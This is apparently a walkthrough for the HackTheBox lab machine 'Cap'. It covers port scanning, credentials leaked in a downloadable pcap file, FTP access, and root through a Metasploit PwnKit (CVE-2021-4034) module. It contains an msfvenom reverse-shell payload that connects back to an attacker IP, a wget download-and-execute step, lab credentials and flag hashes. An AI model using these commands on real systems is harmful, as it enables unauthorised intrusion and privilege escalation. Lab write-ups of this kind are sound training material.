 ```yaml
---
title: Cap - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```

# Cap - A HackTheBox  machine

## user.txt

We enumerate the target:

```
sudo nmap -sC -sV $ip --top-ports 10000
```

Open ports: 21, 22 and 80.

We access the IP via browser and we can see a Gunicorn service, that allows you to capture the traffic with the server and the download of the pcap files.  By enumerating these pcap files, we note that the first capture we did was under id 1. So we enumerate even previous pcap files. We find one at:

```
http://10.129.49.200/download/0
```

In this pcap file we can spot a successful login into the FTP service with creds:

```
nathan:Buck3tH4TF0RM3!
```

Now we login an retrieve the user.txt file:

```
ftp nathan@$ip
# Enter password when prompted.
dir
get user.txt
quit
cat user.txt
```

Results: b1200746cf3fc6fcb47503517d1fcad3


## root.txt

We do some basic recon. We note the outcome for this:

```
uname -a 
```

Output:

```
Linux cap 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```


We will use the exploit suggester:

```
https://github.com/The-Z-Labs/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh
```

The outcome:

```
Possible Exploits:

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[CUT for brevity]
```

As the first exploit is newer than the machine we will go for the second. 

For exploiting it, we need a session using Metasploit and a exploit/multi/handler.

First we create the msfvenom file from our attacker machine:

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.154 LPORT=1234 -f elf > shell.elf
```

We copy this file to the target host:

```
# From our kali
python3 -m http.server 80

# From the target host 
wget http://$kaliAttackingIP/shell.elf
chmod +x shell.elf
```

We establish a session from metasploit:

```
# From the kali attacking machine
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
setg LHOST 10.10.14.154
set LPORT 1234
exploit -j

# From the target host:
./shell.elf

# And we will obtain a session with the privileges of the user nathan.
```

Now we will escalate privileges. From the attacker machine, using metasploit:

```
# Check out the open sessions:
sessions

# Use the module 
search CVE-2021-4034
use 0
set SESSION 1
run
```

As a result we will obtain a meterpreter terminal:

```
cat /root/root.txt
```

Results: 66dd8fcc46c115693d1c5ae789a11a8d